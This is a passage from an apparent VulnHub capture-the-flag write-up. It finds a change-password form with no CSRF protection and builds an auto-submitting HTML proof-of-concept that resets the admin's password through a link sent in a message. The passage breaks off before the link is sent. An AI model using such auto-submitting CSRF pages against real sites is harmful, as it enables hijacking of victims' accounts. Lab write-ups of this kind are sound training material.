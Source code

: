 ![hint](https://github.com/Git-K3rnel/VulnHub/assets/127470407/8400e744-51ef-4248-838f-4c6611211d41)

it is abvious that :
- admin will run the service locally on 127.0.0.1
- it says CSRF meaning we should look for it
- and the regex is for finding URL

gathering the above information we begin our work.

i signed up for an account : `myacc:123`

three new functionalities appears after loggin in :

![afterlogin](https://github.com/Git-K3rnel/VulnHub/assets/127470407/5a75cc52-f54e-4473-995e-d0106d3b9ffc)

if we check the `change password` we clearly see that is it vulnerable to CSRF attack because it meets 3 conditions :

- it is state changing
- it uses cookie for sessions
- it has no protection like CSRF token

keep it in mind we explore the `Messages` and `send message` functionality which we can send message to other users

and other users are listed in `users` menu :

![users](https://github.com/Git-K3rnel/VulnHub/assets/127470407/94484819-71ec-4ec1-82de-8f7342272aa3)

we see that user `spiderman` is administrator so we should some how try to reach his account.

## Gaining Shell

Since we have CSRF vulnerability and can send message to spiderman we create a CSRF POC and send a link to spiderman (remember that admin will run service locally)

```html
<html>
  <body>
    <form action="http://127.0.0.1:8081/change-password" method="POST">
      <input type="hidden" name="password" value="123" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

put the aboove code in `visit.html` file and host it with python webserver :

```bash
root@kali: python -m http.server 80
```

send the link in message to spiderman : 
